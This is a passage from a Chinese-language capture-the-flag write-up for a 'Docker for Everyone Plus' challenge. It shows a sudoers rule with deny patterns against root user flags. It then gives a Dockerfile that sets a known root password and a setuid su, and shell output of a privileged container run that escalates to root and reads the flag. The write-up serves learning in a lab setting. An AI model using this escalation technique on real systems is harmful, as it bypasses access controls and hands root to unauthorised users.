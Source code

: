 
## Docker for Everyone Plus

### No Enough Privilege



```
NOPASSWD: /usr/bin/docker run --rm -u 1000\:1000 *, 
        /usr/bin/docker image load, 
        !/usr/bin/docker * -u0*, 
        !/usr/bin/docker * -u?0*,
        !/usr/bin/docker * --user?0*, 
        !/usr/bin/docker * -ur*, 
        !/usr/bin/docker * -u?r*, 
        !/usr/bin/docker * --user?r*,
```

在网上找到了[这篇文章](https://www.mendelowski.com/til/2024/07/no-new-privileges-docker)，作者提到了可以让docker里的用户用su提权到root，就可以干和`docker run --rm`之后一样的事情了。因此，我们制作一个简单的image：

```dockerfile
FROM busybox:latest


# Create a new user
RUN adduser -D -u 1000 user && \
    # Set root password
    echo "root:root" | chpasswd && \
    # Make sure su has correct permissions
    chmod u+s /bin/su

# Switch to the new user
USER user
WORKDIR /home/user

CMD ["/bin/sh"]
```

用rz传到题目环境里运行即可。

```shell
dockerv:/tmp$ sudo docker run --rm -u 1000:1000 -v /flag:/flag -v /dev:/dev --pr
ivileged --pid=host --cap-add=SYS_ADMIN reader_busybox1 whoami
user
dockerv:/tmp$ sudo docker run --rm -u 1000:1000  -it -v /flag:/flag -v /dev:/dev
 --privileged --pid=host --cap-add=SYS_ADMIN reader_busybox1
~ $ su root
Password:
/home/user # cat /flag
flag{dONT_1OAD_uNTRusT3D_1ma6e_253cb5a83d_plz!}
```

## ZFS 文件恢复
